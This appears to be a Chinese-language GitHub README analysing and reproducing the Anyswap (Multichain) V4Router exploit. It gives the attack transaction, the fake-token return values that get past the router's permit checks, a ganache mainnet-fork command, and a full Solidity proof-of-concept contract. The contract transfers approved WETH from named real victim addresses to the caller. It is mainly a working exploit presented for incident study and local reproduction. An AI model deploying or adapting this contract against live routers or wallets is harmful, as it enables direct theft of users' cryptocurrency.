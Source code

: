 # Anyswap_Vul_Poc
Anyswap aka Multichain V4Router 攻击事件的分析和复现


### 攻击交易

```
0xd07c0f40eec44f7674dddf617cbdec4758f258b531e99b18b8ee3b3b95885e7d
```

### 块高度

```
14028474
```


### 攻击步骤

1. 攻击合约调用`AnyswapV4Router`的`anySwapOutUnderlyingWithPermit`函数,传入参数：
    1. 受害者地址
    2. 虚假的Token地址
    3. 攻击者的EOA地址
    4. amount=200000000000000000
    5. deadline=100000000000000000000
    6. v=0
    7. r=0x0000000000000000000000000000000000000000000000000000000000000000
    8. s=0x0000000000000000000000000000000000000000000000000000000000000000
    9. toChainID=56

2. 第一步会导致`AnyswapV4Router`调用虚假Token的`underlying()`函数, 虚假Token的返回值为：
    1. WETH的地址


3. 第一步中`AnyswapV4Router`还会调用虚假Token的`depositVault()`函数, 虚假Token的返回值为：
    1. 1


4. 第一步`AnyswapV4Router`最后会调用虚假Token的`burn()`函数, 虚假Token的返回值为：
    1. true

5. 绕过各种校验后, AnyswapV4Router把`WETH`从受害人的账户转入攻击者的EOA地址


### 复现方法

* fork

```
npx ganache-cli  --fork https://eth-mainnet.alchemyapi.io/v2/your_api_key@14028473  -l 4294967295
```

* 部署攻击合约

```js

// SPDX-License-Identifier: UNLICENSED
pragma solidity >=0.7.0 <0.9.0;

interface AnyswapV4Router {

    function anySwapOutUnderlyingWithPermit(
        address from,
        address token,
        address to,
        uint256 amount,
        uint256 deadline,
        uint8 v,
        bytes32 r,
        bytes32 s,
        uint256 toChainID
    ) external;
    
}

interface WBNB {

    function approve(address guy, uint256 wad) external returns (bool);

    function withdraw(uint256 wad) external;

    function balanceOf(address) external view returns (uint256);

    function transfer(address dst, uint256 wad) external returns (bool);

}



contract poc{

    address AnyswapV4Router_Address = 0x6b7a87899490EcE95443e979cA9485CBE7E71522;

    address WBNB_Address = 0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2;

    function attack(address innocent_user, uint256 amount) public{

        AnyswapV4Router(AnyswapV4Router_Address).anySwapOutUnderlyingWithPermit(innocent_user,address(this),msg.sender,amount,100000000000000000000,0,"0x","0x",56);

        WBNB(WBNB_Address).transfer(msg.sender, amount);

    }


    function burn(address from, uint256 amount) external returns (bool){
        return true;
    }

    function depositVault(uint amount, address to) external returns (uint){
        return 1;
    }


    function underlying() external view returns (address){
        return WBNB_Address;
    }

}


```

* 查询第一个受害者有多少`WETH`

![image](https://github.com/W2Ning/Anyswap_Vul_Poc/blob/main/images/innocent_user_1.png)

该用户`0x5136e623126d3572933fbafe59ae97f13dd9687a`有大概5.7个`WETH`

* 调用POC合约的`attack`函数, 传入第一个受害人的地址和数量

![image](https://github.com/W2Ning/Anyswap_Vul_Poc/blob/main/images/attack_1.png)


![image](https://github.com/W2Ning/Anyswap_Vul_Poc/blob/main/images/after.png)

* 查询第二个受害者有多少`WETH`

![image](https://github.com/W2Ning/Anyswap_Vul_Poc/blob/main/images/innocent_user_2.png)

该用户`0xa8a83c0a6fabadf21dbb1da1d9b24455c56f5573`刚好有3个`WETH`, 并且之前与`Anyswap`交互过

* 同样的操作

![image](https://github.com/W2Ning/Anyswap_Vul_Poc/blob/main/images/attack_2.png)


![image](https://github.com/W2Ning/Anyswap_Vul_Poc/blob/main/images/after_attack_2.png)

